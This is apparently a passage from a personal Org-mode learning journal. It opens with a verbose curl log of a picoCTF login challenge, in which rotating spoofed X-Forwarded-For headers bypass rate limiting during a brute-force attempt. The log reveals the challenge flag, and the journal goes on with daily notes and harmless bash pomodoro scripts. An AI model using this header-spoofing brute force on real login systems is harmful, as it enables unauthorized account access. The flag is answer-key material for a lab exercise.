                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 3.23.68.152:57780...
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0* Connected to amiable-citadel.picoctf.net (3.23.68.152) port 57780 (#0)
> POST /login HTTP/1.1
> Host: amiable-citadel.picoctf.net:57780
> X-Forwarded-For: 1.2.3.1
> User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0
> Accept: */*
> Accept-Language: en-US,en;q=0.5
> Accept-Encoding: gzip, deflate
> Referer: http://amiable-citadel.picoctf.net:57381/
> Content-Type: application/json
> Origin: http://amiable-citadel.picoctf.net:57381
> Connection: keep-alive
> Priority: u=0
> Content-Length: 56
> 
} [56 bytes data]
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: application/json; charset=utf-8
< Content-Length: 17
< ETag: W/"11-UIVUdQWNarX1D9mk06okyEMbpS8"
< Date: Mon, 20 Oct 2025 23:52:16 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
{ [17 bytes data]
100    73  100    17  100    56     20     67 --:--:-- --:--:-- --:--:--    87
,* Connection #0 to host amiable-citadel.picoctf.net left intact
{"success":false}Note: Unnecessary use of -X or --request, POST is already inferred.
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 3.23.68.152:57780...
,* Connected to amiable-citadel.picoctf.net (3.23.68.152) port 57780 (#0)
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0> POST /login HTTP/1.1
> Host: amiable-citadel.picoctf.net:57780
> X-Forwarded-For: 1.2.3.2
> User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0
> Accept: */*
> Accept-Language: en-US,en;q=0.5
> Accept-Encoding: gzip, deflate
> Referer: http://amiable-citadel.picoctf.net:57381/
> Content-Type: application/json
> Origin: http://amiable-citadel.picoctf.net:57381
> Connection: keep-alive
> Priority: u=0
> Content-Length: 56
> 
} [56 bytes data]
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: application/json; charset=utf-8
< Content-Length: 17
< ETag: W/"11-UIVUdQWNarX1D9mk06okyEMbpS8"
< Date: Mon, 20 Oct 2025 23:52:17 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
{ [17 bytes data]
100    73  100    17  100    56     20     68 --:--:-- --:--:-- --:--:--    89
,* Connection #0 to host amiable-citadel.picoctf.net left intact
{"success":false}Note: Unnecessary use of -X or --request, POST is already inferred.
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 3.23.68.152:57780...
,* Connected to amiable-citadel.picoctf.net (3.23.68.152) port 57780 (#0)
> POST /login HTTP/1.1
> Host: amiable-citadel.picoctf.net:57780
> X-Forwarded-For: 1.2.3.3
> User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0
> Accept: */*
> Accept-Language: en-US,en;q=0.5
> Accept-Encoding: gzip, deflate
> Referer: http://amiable-citadel.picoctf.net:57381/
> Content-Type: application/json
> Origin: http://amiable-citadel.picoctf.net:57381
> Connection: keep-alive
> Priority: u=0
> Content-Length: 56
> 
} [56 bytes data]
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: application/json; charset=utf-8
< Content-Length: 17
< ETag: W/"11-UIVUdQWNarX1D9mk06okyEMbpS8"
< Date: Mon, 20 Oct 2025 23:52:18 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
{ [17 bytes data]
100    73  100    17  100    56     21     70 --:--:-- --:--:-- --:--:--    92100    73  100    17  100    56     21     70 --:--:-- --:--:-- --:--:--    92
,* Connection #0 to host amiable-citadel.picoctf.net left intact
{"success":false}Note: Unnecessary use of -X or --request, POST is already inferred.
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 3.23.68.152:57780...
,* Connected to amiable-citadel.picoctf.net (3.23.68.152) port 57780 (#0)
> POST /login HTTP/1.1
> Host: amiable-citadel.picoctf.net:57780
> X-Forwarded-For: 1.2.3.4
> User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0
> Accept: */*
> Accept-Language: en-US,en;q=0.5
> Accept-Encoding: gzip, deflate
> Referer: http://amiable-citadel.picoctf.net:57381/
> Content-Type: application/json
> Origin: http://amiable-citadel.picoctf.net:57381
> Connection: keep-alive
> Priority: u=0
> Content-Length: 56
> 
} [56 bytes data]
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: application/json; charset=utf-8
< Content-Length: 17
< ETag: W/"11-UIVUdQWNarX1D9mk06okyEMbpS8"
< Date: Mon, 20 Oct 2025 23:52:19 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
{ [17 bytes data]
100    73  100    17  100    56     21     69 --:--:-- --:--:-- --:--:--    90100    73  100    17  100    56     21     69 --:--:-- --:--:-- --:--:--    90
,* Connection #0 to host amiable-citadel.picoctf.net left intact
{"success":false}Note: Unnecessary use of -X or --request, POST is already inferred.
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 3.23.68.152:57780...
,* Connected to amiable-citadel.picoctf.net (3.23.68.152) port 57780 (#0)
> POST /login HTTP/1.1
> Host: amiable-citadel.picoctf.net:57780
> X-Forwarded-For: 1.2.3.5
> User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0
> Accept: */*
> Accept-Language: en-US,en;q=0.5
> Accept-Encoding: gzip, deflate
> Referer: http://amiable-citadel.picoctf.net:57381/
> Content-Type: application/json
> Origin: http://amiable-citadel.picoctf.net:57381
> Connection: keep-alive
> Priority: u=0
> Content-Length: 56
> 
} [56 bytes data]
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: application/json; charset=utf-8
< Content-Length: 17
< ETag: W/"11-UIVUdQWNarX1D9mk06okyEMbpS8"
< Date: Mon, 20 Oct 2025 23:52:20 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
{ [17 bytes data]
100    73  100    17  100    56     20     68 --:--:-- --:--:-- --:--:--    89
,* Connection #0 to host amiable-citadel.picoctf.net left intact
{"success":false}Note: Unnecessary use of -X or --request, POST is already inferred.
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 3.23.68.152:57780...
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0* Connected to amiable-citadel.picoctf.net (3.23.68.152) port 57780 (#0)
> POST /login HTTP/1.1
> Host: amiable-citadel.picoctf.net:57780
> X-Forwarded-For: 1.2.3.6
> User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0
> Accept: */*
> Accept-Language: en-US,en;q=0.5
> Accept-Encoding: gzip, deflate
> Referer: http://amiable-citadel.picoctf.net:57381/
> Content-Type: application/json
> Origin: http://amiable-citadel.picoctf.net:57381
> Connection: keep-alive
> Priority: u=0
> Content-Length: 56
> 
} [56 bytes data]
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: application/json; charset=utf-8
< Content-Length: 132
< ETag: W/"84-GgUl5OLUlonh/YEAoxXrH+ecwrc"
< Date: Mon, 20 Oct 2025 23:52:20 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
{ [132 bytes data]
100   188  100   132  100    56    159     67 --:--:-- --:--:-- --:--:--   226
,* Connection #0 to host amiable-citadel.picoctf.net left intact
{"success":true,"email":"ctf-player@picoctf.org","firstName":"pico","lastName":"player","flag":"picoCTF{xff_byp4ss_brut3_1cc3b76e}"}Note: Unnecessary use of -X or --request, POST is already inferred.
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 3.23.68.152:57780...
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0* Connected to amiable-citadel.picoctf.net (3.23.68.152) port 57780 (#0)
> POST /login HTTP/1.1
> Host: amiable-citadel.picoctf.net:57780
> X-Forwarded-For: 1.2.3.7
> User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0
> Accept: */*
> Accept-Language: en-US,en;q=0.5
> Accept-Encoding: gzip, deflate
> Referer: http://amiable-citadel.picoctf.net:57381/
> Content-Type: application/json
> Origin: http://amiable-citadel.picoctf.net:57381
> Connection: keep-alive
> Priority: u=0
> Content-Length: 56
> 
} [56 bytes data]
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: application/json; charset=utf-8
< Content-Length: 17
< ETag: W/"11-UIVUdQWNarX1D9mk06okyEMbpS8"
< Date: Mon, 20 Oct 2025 23:52:21 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
{ [17 bytes data]
100    73  100    17  100    56     21     71 --:--:-- --:--:-- --:--:--    92
,* Connection #0 to host amiable-citadel.picoctf.net left intact
{"success":false}Note: Unnecessary use of -X or --request, POST is already inferred.
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 3.23.68.152:57780...
,* Connected to amiable-citadel.picoctf.net (3.23.68.152) port 57780 (#0)
> POST /login HTTP/1.1
> Host: amiable-citadel.picoctf.net:57780
> X-Forwarded-For: 1.2.3.8
> User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0
> Accept: */*
> Accept-Language: en-US,en;q=0.5
> Accept-Encoding: gzip, deflate
> Referer: http://amiable-citadel.picoctf.net:57381/
> Content-Type: application/json
> Origin: http://amiable-citadel.picoctf.net:57381
> Connection: keep-alive
> Priority: u=0
> Content-Length: 56
> 
} [56 bytes data]
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: application/json; charset=utf-8
< Content-Length: 17
< ETag: W/"11-UIVUdQWNarX1D9mk06okyEMbpS8"
< Date: Mon, 20 Oct 2025 23:52:22 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
{ [17 bytes data]
100    73  100    17  100    56     21     69 --:--:-- --:--:-- --:--:--    90100    73  100    17  100    56     21     69 --:--:-- --:--:-- --:--:--    90
,* Connection #0 to host amiable-citadel.picoctf.net left intact
{"success":false}Note: Unnecessary use of -X or --request, POST is already inferred.
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 3.23.68.152:57780...
,* Connected to amiable-citadel.picoctf.net (3.23.68.152) port 57780 (#0)
> POST /login HTTP/1.1
> Host: amiable-citadel.picoctf.net:57780
> X-Forwarded-For: 1.2.3.9
> User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0
> Accept: */*
> Accept-Language: en-US,en;q=0.5
> Accept-Encoding: gzip, deflate
> Referer: http://amiable-citadel.picoctf.net:57381/
> Content-Type: application/json
> Origin: http://amiable-citadel.picoctf.net:57381
> Connection: keep-alive
> Priority: u=0
> Content-Length: 56
> 
} [56 bytes data]
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: application/json; charset=utf-8
< Content-Length: 17
< ETag: W/"11-UIVUdQWNarX1D9mk06okyEMbpS8"
< Date: Mon, 20 Oct 2025 23:52:23 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
{ [17 bytes data]
100    73  100    17  100    56     28     93 --:--:-- --:--:-- --:--:--   121100    73  100    17  100    56     28     93 --:--:-- --:--:-- --:--:--   121
,* Connection #0 to host amiable-citadel.picoctf.net left intact
{"success":false}Note: Unnecessary use of -X or --request, POST is already inferred.
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 3.23.68.152:57780...
,* Connected to amiable-citadel.picoctf.net (3.23.68.152) port 57780 (#0)
> POST /login HTTP/1.1
> Host: amiable-citadel.picoctf.net:57780
> X-Forwarded-For: 1.2.3.10
> User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0
> Accept: */*
> Accept-Language: en-US,en;q=0.5
> Accept-Encoding: gzip, deflate
> Referer: http://amiable-citadel.picoctf.net:57381/
> Content-Type: application/json
> Origin: http://amiable-citadel.picoctf.net:57381
> Connection: keep-alive
> Priority: u=0
> Content-Length: 56
> 
} [56 bytes data]
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: application/json; charset=utf-8
< Content-Length: 17
< ETag: W/"11-UIVUdQWNarX1D9mk06okyEMbpS8"
< Date: Mon, 20 Oct 2025 23:52:23 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
{ [17 bytes data]
100    73  100    17  100    56     21     69 --:--:-- --:--:-- --:--:--    90
,* Connection #0 to host amiable-citadel.picoctf.net left intact
{"success":false}Note: Unnecessary use of -X or --request, POST is already inferred.
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 3.23.68.152:57780...
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0* Connected to amiable-citadel.picoctf.net (3.23.68.152) port 57780 (#0)
> POST /login HTTP/1.1
> Host: amiable-citadel.picoctf.net:57780
> X-Forwarded-For: 1.2.3.11
> User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0
> Accept: */*
> Accept-Language: en-US,en;q=0.5
> Accept-Encoding: gzip, deflate
> Referer: http://amiable-citadel.picoctf.net:57381/
> Content-Type: application/json
> Origin: http://amiable-citadel.picoctf.net:57381
> Connection: keep-alive
> Priority: u=0
> Content-Length: 56
> 
} [56 bytes data]
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: application/json; charset=utf-8
< Content-Length: 17
< ETag: W/"11-UIVUdQWNarX1D9mk06okyEMbpS8"
< Date: Mon, 20 Oct 2025 23:52:24 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
{ [17 bytes data]
100    73  100    17  100    56     21     69 --:--:-- --:--:-- --:--:--    90
,* Connection #0 to host amiable-citadel.picoctf.net left intact
{"success":false}Note: Unnecessary use of -X or --request, POST is already inferred.
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 3.23.68.152:57780...
,* Connected to amiable-citadel.picoctf.net (3.23.68.152) port 57780 (#0)
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0> POST /login HTTP/1.1
> Host: amiable-citadel.picoctf.net:57780
> X-Forwarded-For: 1.2.3.12
> User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0
> Accept: */*
> Accept-Language: en-US,en;q=0.5
> Accept-Encoding: gzip, deflate
> Referer: http://amiable-citadel.picoctf.net:57381/
> Content-Type: application/json
> Origin: http://amiable-citadel.picoctf.net:57381
> Connection: keep-alive
> Priority: u=0
> Content-Length: 56
> 
} [56 bytes data]
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: application/json; charset=utf-8
< Content-Length: 17
< ETag: W/"11-UIVUdQWNarX1D9mk06okyEMbpS8"
< Date: Mon, 20 Oct 2025 23:52:25 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
{ [17 bytes data]
100    73  100    17  100    56     21     69 --:--:-- --:--:-- --:--:--    90
,* Connection #0 to host amiable-citadel.picoctf.net left intact
{"success":false}Note: Unnecessary use of -X or --request, POST is already inferred.
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 3.23.68.152:57780...
,* Connected to amiable-citadel.picoctf.net (3.23.68.152) port 57780 (#0)
> POST /login HTTP/1.1
> Host: amiable-citadel.picoctf.net:57780
> X-Forwarded-For: 1.2.3.13
> User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0
> Accept: */*
> Accept-Language: en-US,en;q=0.5
> Accept-Encoding: gzip, deflate
> Referer: http://amiable-citadel.picoctf.net:57381/
> Content-Type: application/json
> Origin: http://amiable-citadel.picoctf.net:57381
> Connection: keep-alive
> Priority: u=0
> Content-Length: 56
> 
} [56 bytes data]
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: application/json; charset=utf-8
< Content-Length: 17
< ETag: W/"11-UIVUdQWNarX1D9mk06okyEMbpS8"
< Date: Mon, 20 Oct 2025 23:52:26 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
{ [17 bytes data]
100    73  100    17  100    56     21     69 --:--:-- --:--:-- --:--:--    90100    73  100    17  100    56     21     69 --:--:-- --:--:-- --:--:--    90
,* Connection #0 to host amiable-citadel.picoctf.net left intact
{"success":false}Note: Unnecessary use of -X or --request, POST is already inferred.
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 3.23.68.152:57780...
,* Connected to amiable-citadel.picoctf.net (3.23.68.152) port 57780 (#0)
> POST /login HTTP/1.1
> Host: amiable-citadel.picoctf.net:57780
> X-Forwarded-For: 1.2.3.14
> User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0
> Accept: */*
> Accept-Language: en-US,en;q=0.5
> Accept-Encoding: gzip, deflate
> Referer: http://amiable-citadel.picoctf.net:57381/
> Content-Type: application/json
> Origin: http://amiable-citadel.picoctf.net:57381
> Connection: keep-alive
> Priority: u=0
> Content-Length: 56
> 
} [56 bytes data]
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: application/json; charset=utf-8
< Content-Length: 17
< ETag: W/"11-UIVUdQWNarX1D9mk06okyEMbpS8"
< Date: Mon, 20 Oct 2025 23:52:27 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
{ [17 bytes data]
100    73  100    17  100    56     28     93 --:--:-- --:--:-- --:--:--   121
,* Connection #0 to host amiable-citadel.picoctf.net left intact
{"success":false}Note: Unnecessary use of -X or --request, POST is already inferred.
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 3.23.68.152:57780...
,* Connected to amiable-citadel.picoctf.net (3.23.68.152) port 57780 (#0)
> POST /login HTTP/1.1
> Host: amiable-citadel.picoctf.net:57780
> X-Forwarded-For: 1.2.3.15
> User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0
> Accept: */*
> Accept-Language: en-US,en;q=0.5
> Accept-Encoding: gzip, deflate
> Referer: http://amiable-citadel.picoctf.net:57381/
> Content-Type: application/json
> Origin: http://amiable-citadel.picoctf.net:57381
> Connection: keep-alive
> Priority: u=0
> Content-Length: 56
> 
} [56 bytes data]
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: application/json; charset=utf-8
< Content-Length: 17
< ETag: W/"11-UIVUdQWNarX1D9mk06okyEMbpS8"
< Date: Mon, 20 Oct 2025 23:52:27 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
{ [17 bytes data]
100    73  100    17  100    56     21     70 --:--:-- --:--:-- --:--:--    92
,* Connection #0 to host amiable-citadel.picoctf.net left intact
{"success":false}Note: Unnecessary use of -X or --request, POST is already inferred.
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 3.23.68.152:57780...
,* Connected to amiable-citadel.picoctf.net (3.23.68.152) port 57780 (#0)
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0> POST /login HTTP/1.1
> Host: amiable-citadel.picoctf.net:57780
> X-Forwarded-For: 1.2.3.16
> User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0
> Accept: */*
> Accept-Language: en-US,en;q=0.5
> Accept-Encoding: gzip, deflate
> Referer: http://amiable-citadel.picoctf.net:57381/
> Content-Type: application/json
> Origin: http://amiable-citadel.picoctf.net:57381
> Connection: keep-alive
> Priority: u=0
> Content-Length: 56
> 
} [56 bytes data]
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: application/json; charset=utf-8
< Content-Length: 17
< ETag: W/"11-UIVUdQWNarX1D9mk06okyEMbpS8"
< Date: Mon, 20 Oct 2025 23:52:28 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
{ [17 bytes data]
100    73  100    17  100    56     21     69 --:--:-- --:--:-- --:--:--    90
,* Connection #0 to host amiable-citadel.picoctf.net left intact
{"success":false}Note: Unnecessary use of -X or --request, POST is already inferred.
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 3.23.68.152:57780...
,* Connected to amiable-citadel.picoctf.net (3.23.68.152) port 57780 (#0)
> POST /login HTTP/1.1
> Host: amiable-citadel.picoctf.net:57780
> X-Forwarded-For: 1.2.3.17
> User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0
> Accept: */*
> Accept-Language: en-US,en;q=0.5
> Accept-Encoding: gzip, deflate
> Referer: http://amiable-citadel.picoctf.net:57381/
> Content-Type: application/json
> Origin: http://amiable-citadel.picoctf.net:57381
> Connection: keep-alive
> Priority: u=0
> Content-Length: 56
> 
} [56 bytes data]
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: application/json; charset=utf-8
< Content-Length: 17
< ETag: W/"11-UIVUdQWNarX1D9mk06okyEMbpS8"
< Date: Mon, 20 Oct 2025 23:52:29 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
{ [17 bytes data]
100    73  100    17  100    56     28     92 --:--:-- --:--:-- --:--:--   120100    73  100    17  100    56     28     92 --:--:-- --:--:-- --:--:--   120
,* Connection #0 to host amiable-citadel.picoctf.net left intact
{"success":false}Note: Unnecessary use of -X or --request, POST is already inferred.
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 3.23.68.152:57780...
,* Connected to amiable-citadel.picoctf.net (3.23.68.152) port 57780 (#0)
> POST /login HTTP/1.1
> Host: amiable-citadel.picoctf.net:57780
> X-Forwarded-For: 1.2.3.18
> User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0
> Accept: */*
> Accept-Language: en-US,en;q=0.5
> Accept-Encoding: gzip, deflate
> Referer: http://amiable-citadel.picoctf.net:57381/
> Content-Type: application/json
> Origin: http://amiable-citadel.picoctf.net:57381
> Connection: keep-alive
> Priority: u=0
> Content-Length: 56
> 
} [56 bytes data]
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: application/json; charset=utf-8
< Content-Length: 17
< ETag: W/"11-UIVUdQWNarX1D9mk06okyEMbpS8"
< Date: Mon, 20 Oct 2025 23:52:30 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
{ [17 bytes data]
100    73  100    17  100    56     28     93 --:--:-- --:--:-- --:--:--   121
,* Connection #0 to host amiable-citadel.picoctf.net left intact
{"success":false}Note: Unnecessary use of -X or --request, POST is already inferred.
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 3.23.68.152:57780...
,* Connected to amiable-citadel.picoctf.net (3.23.68.152) port 57780 (#0)
> POST /login HTTP/1.1
> Host: amiable-citadel.picoctf.net:57780
> X-Forwarded-For: 1.2.3.19
> User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0
> Accept: */*
> Accept-Language: en-US,en;q=0.5
> Accept-Encoding: gzip, deflate
> Referer: http://amiable-citadel.picoctf.net:57381/
> Content-Type: application/json
> Origin: http://amiable-citadel.picoctf.net:57381
> Connection: keep-alive
> Priority: u=0
> Content-Length: 56
> 
} [56 bytes data]
100    56    0     0  100    56      0    238 --:--:-- --:--:-- --:--:--   238< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: application/json; charset=utf-8
< Content-Length: 17
< ETag: W/"11-UIVUdQWNarX1D9mk06okyEMbpS8"
< Date: Mon, 20 Oct 2025 23:52:30 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
{ [17 bytes data]
100    73  100    17  100    56     28     92 --:--:-- --:--:-- --:--:--   120
,* Connection #0 to host amiable-citadel.picoctf.net left intact
{"success":false}
#+end_example

picoCTF{xff_byp4ss_brut3_1cc3b76e}

** Seinfeld Checkmark

[[file:images/2025-10-20_seinfeld.jpeg]]

* [2025-10-19 Sun]

Worked on more challenges today.
Made it a point of creating /tools/ in Emacs to make it easier.
Weakest link is emotional regulation: I get anxious too easy, too fast, and this really clouds my thinking, and makes it more difficult to work on ergonomy and posture.

** feat: add Seinfeld Checkmark 

[[file:images/2025-10-19_seinfeld.jpeg]]

* [2025-10-18 Sat]

Took a step back, and worked on fundamentals, and also cleared my mind.
It paid off: could solve yesterday's "humbling" challenge and some more today.

** Seinfeld Checkmark

[[file:images/2025-10-18_seinfeld.jpeg]]

* [2025-10-17 Fri]

Tough day today.

Took a beating on two CTFs; one expected, and the other humbling...

** Seinfeld Checkmark

[[file:images/2025-10-17_seinfeld.jpeg]]

* [2025-10-16 Thu]

** CSS: we got assignment!

- [X] [[https://github.com/rafaelbeirigo/odin-css-exercises/tree/main/foundations/block-and-inline/01-margin-and-padding-1][01-margin-and-padding-1]]
- [X] [[https://github.com/rafaelbeirigo/odin-css-exercises/tree/main/foundations/block-and-inline/02-margin-and-padding-2][02-margin-and-padding-2]]

** Pomodoro

I may have spent more time than I should have "sharpening this axe"...
Anyway, need a command-line Pomodoro?

*** ~pomodoro~

#+begin_src shell
#!/bin/bash

ME=$(basename $0)

if [ $# -eq 1 ] && ( [ $1 == "-h" ] || [ $1 == "--help" ] )
then
    echo "Usage: $ME [POPUP_NOTIFICATION [OSD_COUNTDOWN [TITLE]]]

POPUP_NOTIFICATION (boolean; default: \"false\")
    Controls if a popup will be shown when time is up.
OSD_COUNTDOWN (boolean; default: \"true\")
    Controls if the countdown will be show on screen (using OSD).
TITLE (string; default: \"Pomodoro\")
     is the headliner of the popup notification.

Boolean values should be \"true\" or \"false\"."
    exit 0
fi

[ $# -ge 1 ] && POPUP_NOTIFICATION=$1 || POPUP_NOTIFICATION=false
[ $# -ge 2 ] && OSD_COUNTDOWN=$2 || OSD_COUNTDOWN=true
[ $# -ge 3 ] && TITLE=$3 || TITLE="Pomodoro"

BIG_INTERVAL="25m"
SHORT_INTERVAL="5m"

TIMER_ARGS="$TITLE $POPUP_NOTIFICATION $OSD_COUNTDOWN"
while [ true ]
do
    timer $BIG_INTERVAL $TIMER_ARGS
    timer $SHORT_INTERVAL $TIMER_ARGS
done
#+end_src

*** ~timer~

#+begin_src shell
#!/bin/bash

ME=$(basename $0)

USAGE="Usage: $ME TIME_AMOUNT [TITLE [POPUP_NOTIFICATION [OSD_COUNTDOWN]]]

TITLE (string; default: \"Pomodoro\")
     is the headliner of the popup notification.
POPUP_NOTIFICATION (boolean; default: \"false\")
    Controls if a popup will be shown when time is up.
OSD_COUNTDOWN (boolean; default: \"true\")
    Controls if the countdown will be show on screen (using OSD).

Boolean values should be \"true\" or \"false\"."

if [ $1 == "-h" ] || [ $1 == "--help" ]
then
    echo "$USAGE"
    exit 0
fi

die () {
    echo >&2 "$@"
    exit 1
}

[ $# -ge 1 ] && TIME=$1 || die $USAGE
[ $# -ge 2 ] && TITLE=$2 || TITLE="Timer"
[ $# -ge 3 ] && POPUP_NOTIFICATION=$3
[ $# -ge 4 ] && OSD_COUNTDOWN=$4

OSD_CAT_FLAGS='--pos=top --align=right --delay=60 --shadow=3 --outline=0 --outlinecolour=black --color=cyan --font=-misc-fixed-medium-r-normal--75-*-*-*-*-*-*'

# Determine the unit for the time (minutes or seconds, default to minutes)
UNIT=${TIME: -1}
if [[ $UNIT = @(m|s) ]];
then
